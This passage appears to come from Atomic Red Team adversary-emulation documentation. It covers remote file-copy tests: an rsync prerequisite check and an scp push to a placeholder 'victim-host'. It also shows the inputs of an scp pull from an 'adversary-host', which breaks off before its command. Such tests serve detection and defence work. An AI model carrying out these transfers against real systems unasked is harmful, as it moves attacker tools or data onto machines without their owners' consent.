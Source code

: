 ```sh
if [ -x "$(command -v rsync)" ]; then exit 0; else exit 1; fi
```

##### Get Prereq Commands:

```sh
(pkg install -y rsync)||(sudo apt-get -y install rsync)
```

<br/>
<br/>

## Atomic Test #3 - scp remote file copy (push)

Utilize scp to perform a remote file copy (push)

**Supported Platforms:** Linux, macOS

**auto_generated_guid:** 83a49600-222b-4866-80a0-37736ad29344

#### Inputs:

| Name        | Description                                 | Type   | Default Value      |
| ----------- | ------------------------------------------- | ------ | ------------------ |
| remote_path | Remote path to receive scp                  | path   | /tmp/victim-files/ |
| local_file  | Path of file to copy                        | path   | /tmp/adversary-scp |
| remote_host | Remote host to copy toward                  | string | victim-host        |
| username    | User account to authenticate on remote host | string | victim             |

#### Attack Commands: Run with `sh`!

```sh
scp #{local_file} #{username}@#{remote_host}:#{remote_path}
```

<br/>
<br/>

## Atomic Test #4 - scp remote file copy (pull)

Utilize scp to perform a remote file copy (pull)

**Supported Platforms:** Linux, macOS

**auto_generated_guid:** b9d22b9a-9778-4426-abf0-568ea64e9c33

#### Inputs:

| Name        | Description                                 | Type   | Default Value      |
| ----------- | ------------------------------------------- | ------ | ------------------ |
| remote_host | Remote host to copy from                    | string | adversary-host     |
| local_path  | Local path to receive scp                   | path   | /tmp/victim-files/ |
| remote_file | Path of file to copy                        | path   | /tmp/adversary-scp |
| username    | User account to authenticate on remote host | string | adversary          |
